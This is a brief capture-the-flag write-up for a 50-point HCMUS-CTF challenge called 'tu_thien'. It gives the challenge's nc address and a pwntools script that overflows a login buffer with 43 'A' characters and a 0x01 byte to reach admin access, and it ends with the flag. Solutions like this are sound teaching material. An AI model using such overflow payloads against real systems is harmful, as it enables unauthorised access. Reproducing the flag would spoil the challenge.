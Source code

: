 ## tu_thien (50 points)

#### Solved by hieplpvip

```
Toi da tao ra chuc nang dang nhap/dang ky de truy cap vao he thong tu` thie^.n, version 13.67(B). Cac ban dang nhap vao day de gui tien ung ho nhe!

https://mega.nz/folder/jawUxZDS#KFfVkGT3sCp8gUmsaiJyIQ

nc 61.28.237.24 30211

Author: xikhud
```

```py
from pwn import *
conn = remote('61.28.237.24', 30211)
conn.sendline('2' + 'A' * 43 + '\x01')
conn.interactive()

# Type admin for both username and password
```

**Flag:** `HCMUS-CTF{I_wonder_where_that_14B_went}`
